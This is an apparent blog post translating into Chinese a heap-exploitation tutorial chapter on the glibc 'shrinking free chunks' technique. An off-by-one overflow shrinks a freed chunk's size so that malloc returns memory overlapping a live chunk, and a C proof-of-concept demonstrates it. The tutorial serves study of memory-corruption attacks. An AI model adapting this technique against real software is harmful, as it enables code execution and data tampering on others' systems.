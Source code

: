 ```yaml
---
title: Heap Exploitation系列翻译-12 Shrinking Free Chunks
tags: [CTF, pwn, heap]
layout: post
categories: translations
---
```


> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击在'[Glibc Adventures: The Forgotten Chunk](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)'中有详细描述. 它是利用单字节堆溢出(通常也被称作 '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)'). 这项攻击技术的目标是让'malloc'返回一个跟某一已分配堆块重叠的堆块, 该堆块目前也处在使用状态. 起始在内存中的3块连续堆块(`a`, `b`, `c`)被分配出来并且中间那块已经被释放了. 第一块堆块存在溢出漏洞, 可以利用溢出覆写中间堆块的'size'. 攻击者的最低有效字节是0, 也就'缩减'了堆块的大小. 接下来,从中间的空闲堆块中分配出两个small chunks(`b1` 和 `b2`). 第三个堆块的`prev_size`并没有得到更新, 因为`b`+`b->size`已经不再指向`c`, 实际上它指向的是在`c`之前的一块内存区域. 之后, `b1`和`c`都被释放, `c`仍旧认定`b`是处于空闲的(这是因为`prev_size`并没有更新,因此`c`-`c->prev_size`依旧指向`b`)并与`b`进行合并. 这也就导致了生成一个起始于`b`大空闲块并同时与`b2`相重叠了. 一个新的malloc将这个大堆块返回回来, 从而完成这项攻击. 下图总结了这些步骤:

![Summary of shrinking free chunks attack steps](https://heap-exploitation.dhavalkapil.com/assets/images/shrinking_free_chunks.png)

_图片来源: https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf_

考虑以下示例代码(下载完整版本: [这里](https://heap-exploitation.dhavalkapil.com/assets/files/shrinking_free_chunks.c))


```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big`现在指向一开始的`b`堆块并且与`b2`重叠. 更改`big`的内容会改变`b2`的内容, 即时两个堆块都不会被释放.

值得注意的是, 与缩减`b`块相反, 攻击者其实也可以增加`b`块的大小. 这也同样可以造成类似情况的重叠. 当'malloc'申请另一个更大的堆块, `b`就会用于满足这个申请需求, 这样`c`的内存也会作为新堆块的一部分返回回来.
